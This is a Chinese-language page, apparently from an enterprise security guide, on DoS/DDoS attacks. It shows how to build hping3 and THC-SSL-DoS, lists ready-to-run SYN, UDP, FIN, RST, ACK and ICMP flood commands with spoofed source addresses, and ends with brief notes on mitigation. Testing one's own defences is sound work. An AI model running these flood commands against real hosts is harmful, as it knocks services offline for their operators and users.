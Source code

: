 ## 概述

## 利用工具
### hping3
[Hping3官网地址](http://www.hping.org/hping3.html)

* Centos7编译安装 ( Kali自带 )

```

# 解决环境依赖
yum install gcc.x86_64 libpcap-devel.x86_64 tcl-devel -y

# 下载
wget http://www.hping.org/hping3-20051105.tar.gz

# 解压并开始编译
tar -xf hping3-20051105.tar.gz && cd hping3-20051105
./configure

# 报错如图
```

![ddos-1](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/raw/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/img/ddos-1.png)

```
# 修改文件，解决问题，修改如图
vim bytesex.h
```

![ddos-2](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/raw/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/img/ddos-2.png)

```
# 编译，此时报错如图
make
```

![ddos-3](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/raw/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/img/ddos-3.png)

```
# 解决问题
ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h

# 再次编译
make && make instal

# 安装成功
```

* hping3案例

```
# 测试SYN Flood
hping3 -S --flood -V -p PORT IP
hping3 -c 20000 -d 120 -S -w 64 -p PORT --flood --rand-source IP # 随机源IP

# 测试UDP Flood
hping3 --flood --rand-source --udp -p PORT IP

# 测试TCP FIN Flood
hping3 --flood --rand-source -F -p PORT IP

# 测试TCP RST Flood
hping3 --flood --rand-source -R -p PORT IP

# 测试PUSH和ACK Flood
hping3 --flood --rand-source -PA -p PORT IP

# 测试ICMP和IGMP Flood
hping3 --flood --rand-source -1 -p PORT IP
```

### Thc-SSL-DoS
* Centos7编译安装 ( kali自带 )

```
# 解决环境依赖
yum install gcc.x86_64 openssl-devel.x86_64 -y

# 下载
git clone git://git.kali.org/packages/thc-ssl-dos.git && cd thc-ssl-dos

# 编译安装
./configure

make && make install
```

* thc-ssl-doS使用

```
thc-ssl-dos -l 500 IP PORT --accept
```

## 防御
本质：网络层面的DDoS攻击是无法防御的，能做的就是不断优化自身的网络架构，以及提升网络带宽。

### 链路带宽

### ISP/WAN层
电信云堤产品提供"流量压制"和"近源清洗"：

```
流量压制：分方向的黑洞路由

近源清洗：
```

### CDN/Internet层
CDN本身不是抗DDoS产品，但是针对Web服务而言，CDN可以提供一定的抗D效果。

### DC层
DataCenter这一层的防御属于近目的清洗，在DC出口的地方部署ADS设备。

### OS/APP层
更多的是落地在CC防御中，[参考链接](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/blob/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/CC.md)
